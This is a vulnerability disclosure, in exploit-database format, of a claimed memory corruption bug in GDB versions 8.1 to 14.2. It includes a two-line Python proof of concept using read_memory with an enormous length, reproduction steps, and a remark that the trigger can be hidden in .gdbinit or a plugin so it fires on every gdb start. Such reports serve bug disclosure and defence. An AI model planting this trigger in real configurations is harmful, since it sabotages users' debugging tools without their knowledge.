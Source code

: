 ## Exploit **GDB 8.1~14.2 memory corruption** 

Google Dork:gdb, memory leak, memory exhausted， memory out-of-bounds.

Date: 2024.4.2

Exploit Author: N1nEmAn

Vendor Homepage: https://www.sourceware.org/gdb

Software Link: https://sourceware.org/pub/gdb/releases/

Version: 8.1~14.2  (currently known, and possibly more)

Tested on: Ubuntu18.02、archlinux-2024

## POC

Save as `poc.py` and use `source /path/to/poc.py`.

```py
import gdb
gdb.selected_inferior().read_memory(0, 18446744073709551615)
```
The following is an outdated reproduction. I found that even without loading any binary program, the vulnerability can still be reproduced. If I write 'source /path/to/poc.py' in .gdbinit or even hide it within the plugin code loaded by the gdbinit file, it will cause the vulnerability to be triggered every time gdb is run.

And I will make the following changes below to provide a new reproduction。
## Vulnerability Reproduction

We exploited this in the newest GDB (14.2), and here are the details of my operating system:

```sh
OS: Arch Linux x86_64
Kernel: 6.8.2-zen2-1-zen
Memory: 9998MiB / 27746MiB
CPU: AMD Ryzen 7 6800H with Radeon Graphics
GPU: AMD ATI Radeon 680M
```

### 1.load any binary file

![image-20240402211432774](./1.png)

### 2.run it and ctrl+c to stop it

![image-20240402211541005](./2.png)

### 3. source poc.py
We can see successful memory out-of-bounds access and corruption.
![image-20240402211613585](./3.png)

![image-20240402212709525](./4.png)

### 4. in Ubuntu

![image-20240402212845142](./5.png)
